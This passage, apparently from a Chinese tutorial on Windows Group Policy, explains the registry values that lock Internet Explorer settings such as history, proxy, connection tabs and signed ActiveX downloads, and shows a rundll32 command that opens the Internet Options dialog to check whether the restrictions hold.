在桌面是可以用 F3 搜索的，但是在“我的电脑”以及各本地硬盘中是不可以的，也会出现图 2-2-3 的提示。在 IE 中 F3 禁止了，但是使用 Ctrl+F 还是可以的。这里的“搜索”和“查找”实现的是两个不同的功能。IE 中的搜索功能是在 IE 当前窗口的左侧新打开一个网页，地址是系统安装时默认的，我这里指向的是 `search.fm365.com`，是 Lenovo 的搜索，如图 2-2-4。这个搜索地址是可以更改的，在注册表中的这个位置：`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main`，右边有很多项目，如图 2-2-5。其中有一个 `Search Bar` 的字符串值，它的数值数据就是搜索的地址了，你可以自己随便修改。而“查找”是用来查找当前页的指定字符串的。







- **d. 禁用更改历史记录设置**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel` 下新建一个名为 `History` 的 DWORD，然后赋值为 `1`。
  - 描述：禁止用户更改浏览器的历史记录设置。如果启用该策略，“Internet 选项”对话框中“常规”选项卡上“历史记录”区域内的设置将变灰，如图 2-2-6。当我们不想留下我们的足迹时，清除 IE 的历史记录是必要的，我们通过禁用该项可以达到清除历史记录的目的。



- **e. 禁用更改连接设置**
  - 注册表键值：在 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel` 下新建一个名为 `Connection Settings` 的 `DWORD`，然后赋值为 `1`。
  - 描述：禁止用户更改拨号设置。如果启用该策略，“Internet 选项”对话框中“连接”选项卡上的“设置”按钮将变灰。这个是该策略本身的描述，在我机器上实验的结果是“添加”和“局域网设置”按钮变灰了，如图 2-2-7、图 2-2-8。

对比一下就可以看出来了。而“设置”按钮一直是灰的，不知道是微软的描述错误还是……通过“添加”我们可以新建连接，比如 VPN，而通过“局域网设置”对我们最重要的是可以设置代理，如图 2-2-9。



- **f. 禁用更改代理服务器设置**
  - 注册表键值：在 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel` 下新建一个名为 `Proxy` 的 `DWORD`，然后赋值为 `1`。
  - 描述：禁止用户更改代理设置。如果启用该策略，代理设置将变灰，如图 2-2-10。这些设置位于“局域网设置”对话框中“代理服务器”区域内（单击“Internet 选项”对话框中“连接”选项卡上的“局域网设置”按钮即出现“局域网 LAN 设置”对话框）。



### 2.2.2 Windows 组件\IE\Internet 控制面板

Internet 控制面板就是我们常提到的 Internet 选项，该目录下包含了“Internet 选项”中的若干安全策略。

- **a. 禁用“常规/安全/内容/连接/程序/隐私/高级”页**

它们对应的是“Internet 选项”的选项卡。通常我们打开“Internet 选项”后都能看到上面的内容，但是有时候却只能看到部分内容。这个效果是这样实现的：在 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel` 下新建一个 DWORD 值，名称为 `GeneralTab`，设置为 `1`，就可以隐藏常规页面了，如图 2-2-11。下面逐一列出每个策略的描述信息以及对应注册表键值。





- **1. a-1 常规页面**
  - 注册表键值：**GeneralTab**
  - 描述：删除“Internet 选项”对话框中的“常规”选项卡。启用后用户无法查看和更改主页、缓存（临时文件）、历史记录、网页外观及辅助功能等设置。
  - 相关无需再设的策略包括：
    - 禁用更改主页设置
    - 禁用更改 Internet 临时文件设置
    - 禁用更改历史记录设置
    - 禁用更改颜色设置
    - 禁用更改链接颜色设置
    - 禁用更改字体设置
    - 禁用更改语言设置
    - 禁用更改辅助功能设置


- **2. a-2 安全页面**
  - 注册表键值：**SecurityTab**
  - 描述：删除“Internet 选项”对话框中的“安全”选项卡。启用后用户既看不到，也不能更改安全区域设置（如脚本、下载和用户验证）。
  - 相关无需再设的策略：
    - 安全区域：禁止用户更改策略
    - 安全区域：禁止用户添加或删除站点

- **3. a-3 内容页面**
  - 注册表键值：**ContentTab**
  - 描述：删除“Internet 选项”对话框中的“内容”选项卡。若启用该策略，用户既看不到，也不能更改分级审查、证书、自动完成、Wallet 和配置文件助理的设置，如图 2-2-13。
  - 因为该策略将删除界面上的“内容”选项卡，所以如果设置了该策略，则无需设置下列与“内容”选项卡有关的策略：
    - 禁用更改分级审查设置
    - 禁用更改证书设置
    - 禁用更改配置文件助理设置
    - 禁用表单的自动完成功能
    - 禁止自动完成功能保存密码



- **4. a-4 连接页面**
  - 注册表键值：**ConnectionsTab**
  - 描述：删除“Internet 选项”对话框中的“连接”选项卡。如果启用该策略，则用户既看不到，也不能更改连接和代理服务器设置，如图 2-2-14。
  - 因为该策略将删除界面上的“连接”选项卡，所以如果设置了该策略，则无需设置下列与“连接”选项卡有关的策略：
    - 禁用 Internet 连接向导
    - 禁用更改连接设置
    - 禁用更改代理服务器设置
    - 禁用更改自动配置设置



- **5. a-5 程序页面**
  - 注册表键值：**ProgramsTab**
  - 描述：删除“Internet 选项”对话框中的“程序”选项卡。如果启用该策略，则用户既看不到，也不能更改 Internet 程序的默认设置，如图 2-2-15。
  - 因为该策略将删除界面上的“程序”选项卡，所以如果设置了该策略，则无需设置下列与“程序”选项卡有关的策略：
    - 禁用更改邮件设置
    - 禁用更改日历和联系人设置
    - 禁用“重置 Web 设置”功能
    - 禁用更改默认浏览器检查



- **6. a-6 高级页面**
  - 注册表键值：**AdvancedTab**
  - 描述：删除“Internet 选项”对话框中的“高级”选项卡。如果启用该策略，则用户既看不到，也不能更改高级 Internet 设置，如安全、多媒体和打印，如图 2-2-16。
  - 因为该策略将删除界面上的“高级”选项卡，所以如果设置了该策略，则无需设置位于“用户配置\管理模板\Windows 组件\Internet Explorer”中的“禁用更改高级页设置”策略。



- **7. a-7 隐私页面**
  - 注册表键值：**PrivacyTab**
  - 描述：从“Internet 选项”对话框中删除“隐私”选项卡。

如果选项卡页面全部被禁用，这就会得到和禁止访问“Internet 选项”同样的效果，如图 2-2-17。看到下图，是同样的提示。

在禁用了一个选项卡后，我就想，这种限制是不是单纯的隐藏呢？像隐藏本地硬盘一样，可以从其他地方进入选项卡呢？而答案是否定的。使用 `rundll32.exe` 命令可以进入控制面板的任意项目，加相应参数可以进入某个子项目（见第三章）。

```bash
rundll32.exe shell32.dll,Control_RunDLL inetcpl.cpl,,0
```

正常情况下就打开了“Internet 选项”的“常规”选项卡，而如果禁用了常规页的话，则会出现如图 2-2-18 的提示。看来这个策略的限制还是很彻底的。





### 2.2.3 Windows 组件\IE\Internet 控制面板\安全页\Internet 区域

下面的策略会涉及到 ActiveX 控件的概念，因此这里先简要介绍一下 ActiveX。

> 【什么是 ActiveX 控件】  
> ActiveX 是 Microsoft 对于一系列策略性面向对象程序技术和工具的称呼，其中主要的技术是组件对象模型（COM）。在有目录和其他支持的网络中，COM 变成了分布式 COM（DCOM）。在创建包括 ActiveX 程序时，主要的工作就是组件，一个可以自足地在 ActiveX 网络（现在的网络主要包括 Windows 和 Mac）中任意运行的程序。这个组件就是 ActiveX 控件。ActiveX 是 Microsoft 为抗衡 Sun Microsystems 的 JAVA 技术而提出的，此控件的功能和 JAVA applet 功能类似。  
> Microsoft 还准备支持 UNIX 的 ActiveX 控件。ActiveX 组件包括自动化服务器、自动化控制器、控件、文档和容器互类。有关 ActiveX 控件的详细信息可以到 MSDN 查看：<http://msdn.microsoft.com/library/chs/default.asp?url=/library/CHS/vccore/html/_core_activex_control_topics.asp>

- **a. 下载已签名的 ActiveX 控件**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3` 下新建 DWORD `1001`，值 `0` 为启用，`1` 为提示，`3` 为禁用。
  - 描述：此策略设置允许您管理用户是否可以从此区域中的网页下载经过签名的 ActiveX 控件。该策略在选择了“启用”后，原来灰的部分会变为可用，并可以选择“禁用”“启用”“提示”三个子选项。



